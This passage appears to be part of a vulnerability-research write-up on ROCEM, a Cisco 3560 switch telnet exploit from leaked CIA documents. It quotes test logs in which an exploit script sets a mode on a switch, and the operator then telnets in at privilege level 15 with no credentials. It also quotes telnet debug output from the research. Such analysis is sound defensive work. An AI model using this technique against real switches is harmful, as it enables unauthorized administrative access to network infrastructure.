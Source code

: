 ```
```

Set mode. Modify switch memory in order to make any     
subsequent telnet connections passwordless. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_24969226.html):

```
Test set/unset feature of ROCEM
DUT configured with target configuration and network setup
DUT is accessed by hopping through three flux nodes as per the CONOP
Reloaded DUT to start with a clean device
From Adverse ICON machine, set ROCEM:
root@debian:/home/user1/ops/adverse/adverse-1r/rocem# ./rocem_c3560-ipbase-mz.122-35.SE5.py -s 192.168.0.254
[+] Validating data/interactive.bin
[+] Validating data/set.bin
[+] Validating data/transfer.bin
[+] Validating data/unset.bin

****************************************
Image: c3560-ipbase-mz.122-35.SE5
Host: 192.168.0.254
Action: Set
****************************************

Proceed? (y/n)y
[*] Attempting connection to host 192.168.0.254:23
[+] Connection established
[*] Sending Protocol Step 1
[*] Sending Protocol Step 2
[+] Done
root@debian:/home/user1/ops/adverse/adverse-1r/rocem#

Verified I could telnet and rx priv 15 without creds:

root@debian:/home/user1/ops/adverse/adverse-1r/rocem# telnet 192.168.0.254
Trying 192.168.0.254...
Connected to 192.168.0.254.
Escape character is '^]'.

MLS-Sth#

MLS-Sth#show priv
Current privilege level is 15
MLS-Sth#
```

One piece of information being useful for me in researching this vulnerability was a telnet debug output. Quote from the [doc](https://wikileaks.org/ciav7p1/cms/page_17760327.html):

```
14. Confirm Xetron EAR 5355 - Debug telnet causes anomalous output 
  1.Enabled debug telnet on DUT
  2.Set ROCEM
  3.Observed the following:
    000467: Jun 3 13:54:09.330: TCP2: Telnet received WILL TTY-SPEED (32) (refused)
    000468: Jun 3 13:54:09.330: TCP2: Telnet sent DONT TTY-SPEED (32)
    000469: Jun 3 13:54:09.330: TCP2: Telnet received WILL LOCAL-FLOW (33) (refused)
    000470: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LOCAL-FLOW (33)
    000471: Jun 3 13:54:09.330: TCP2: Telnet received WILL LINEMODE (34)
    000472: Jun 3 13:54:09.330: TCP2: Telnet sent DONT LINEMODE (34) (unimplemented)
    000473: Jun 3 13:54:09.330: TCP2: Telnet received WILL NEW-ENVIRON (39)
    000474: Jun 3 13:54:09.330: TCP2: Telnet sent DONT NEW-ENVIRON (39) (unimplemented)
    000475: Jun 3 13:54:09.330: TCP2: Telnet received DO STATUS (5)
    000476: Jun 3 13:54:09.330: TCP2: Telnet sent WONT STATUS (5) (unimplemented)
```